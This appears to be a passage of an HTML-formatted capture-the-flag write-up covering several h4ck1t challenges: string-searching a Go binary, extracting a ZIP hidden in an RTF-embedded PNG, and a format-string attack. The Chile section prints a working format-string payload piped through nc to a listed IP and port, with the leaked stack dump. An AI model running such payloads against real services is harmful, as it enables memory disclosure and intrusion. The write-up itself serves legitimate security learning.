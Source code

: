               data-href="https://thumbsviewer.github.io" class="markup--anchor markup--p-anchor" rel="noopener"
              target="_blank">Thumbs Viewer</a>. Either way, the flag is the name of one of the thumbnails, <code
              class="markup--code markup--p-code">h4ck1t{75943a3ca2223076e997fe30e17597d4}</code>.</p>
          <h3 name="7d4a" id="7d4a" class="graf graf--h3 graf-after--p">Canada (300)</h3>
          <p name="4a27" id="4a27" class="graf graf--p graf-after--h3">I don’t think I did this the intended way, but
            we were given a binary that apparently produces an output file. But I just did</p>
          <pre name="62cc" id="62cc"
            class="graf graf--pre graf-after--p">$ strings parse | grep h4ck1t<br> to unused region of span2910383045673370361328125_cgo_thread_start missingacquirep: invalid p stateallgadd: bad status Gidlebad procedure for programbad status in shrinkstackcan’t scan gchelper stackchansend: spurious wakeupcheckdead: no m for timercheckdead: no p for timerh4ck1t{T0mmy_g0t_h1s_Gun}mach_semcreate desc countmissing stack in newstackno buffer space availableno such file or directoryoperation now in progressreflect: Bits of nil Typereleasep: invalid p stateresource deadlock avoidedruntime: program exceeds runtime</pre>
          <p name="500e" id="500e" class="graf graf--p graf-after--pre">The flag is <code
              class="markup--code markup--p-code">h4ck1t{T0mmy_g0t_h1s_Gun}</code>.</p>
          <h3 name="5532" id="5532" class="graf graf--h3 graf-after--p">China (150)</h3>
          <p name="5d82" id="5d82" class="graf graf--p graf-after--h3">This one was rather annoying. When you first
            open the RTF file, there is about 53 pages of random hex. I stripped all the nonsense off, and opened the
            binary file with HxD, only to discover that it was a PNG. Not only that, it seemed to have a ZIP appended
            to the end of it.</p>
          <p name="d14c" id="d14c" class="graf graf--p graf-after--p">At that point, I just <code
              class="markup--code markup--p-code">binwalk</code>’d the PNG and extracted the ZIP, leading me to <code
              class="markup--code markup--p-code">flag.txt</code>, containing the flag, <code
              class="markup--code markup--p-code">h4ck1t{rtf_d0cs_4r3_awesome}</code>.</p>
          <h3 name="d060" id="d060" class="graf graf--h3 graf-after--p">Chile (100)</h3>
          <p name="2e87" id="2e87" class="graf graf--p graf-after--h3">We’re told to connect to <code
              class="markup--code markup--p-code">91.231.84.36:9001</code>. When we connect, we are greeted with a
            prompt: <code class="markup--code markup--p-code">wanna see?</code></p>
          <p name="bfaf" id="bfaf" class="graf graf--p graf-after--p">It seems that the program will print back
            whatever you give it. One thought that came to mind was a print format vulnerability. If the program calls
            <code class="markup--code markup--p-code">printf(input)</code> where <code
              class="markup--code markup--p-code">input</code> is the user input, then putting format symbols into our
            input will cause the program to start reading off the stack.
          </p>
          <p name="91c7" id="91c7" class="graf graf--p graf-after--p">There was probably a better way to do it, but
            essentially I just grabbed the top 50 elements off the stack and looked for a flag. And it was there!</p>
          <pre name="423e" id="423e"
            class="graf graf--pre graf-after--p">failedxyz@backtick:~$ python -c ‘print “%p-” * 50’ | nc 91.231.84.36 9001<br>wanna see?<br>ok, so…<br>0x7f0778198483–0x7f07781999e0–0x7f0777ec4710–0x7f07781999e0-(nil)-0x70252d70252d7025–0x252d70252d70252d-0x2d70252d70252d70–0x70252d70252d7025–0x252d70252d70252d-0x2d70252d70252d70–0x70252d70252d7025–0x252d70252d70252d-0x2d70252d70252d70–0x70252d70252d7025–0x252d70252d70252d-0x2d70252d70252d70–0x70252d70252d7025–0x252d70252d70252d-0x2d70252d70252d70–0x70252d70252d7025–0x252d70252d70252d-0x2d70252d70252d70–0x2d70252d7025-(nil)-(nil)-0x7f0777de7c38-(nil)-0x7ffe058d71d0–0x7f0778198400–0x7f0777e54987–0x7f0778198400-(nil)-0x7f07783c7740–0x7f0777e517d9–0x7f0778198400–0x7f0777e49693-(nil)-0xea7c2294f9fed000–0x7ffe058d71d0–0x4007c1–0x647b74316b633468–0x355f7530595f4431–0x3f374168375f6545–0x7d373f-0x4007f0–0xea7c2294f9fed000–0x7ffe058d72b0-(nil)-(nil)-</pre>
          <p name="92bf" id="92bf" class="graf graf--p graf-after--pre">If you get rid of the <code
              class="markup--code markup--p-code">(nil)</code>s and reverse the string (remember endianness), then you
            should eventually arrive at the flag, which is <code
              class="markup--code markup--p-code">h4ck1t{d1D_Y0u_5Ee_7hA7??7}</code>.</p>
          <h3 name="5a4b" id="5a4b" class="graf graf--h3 graf-after--p">Germany (200)</h3>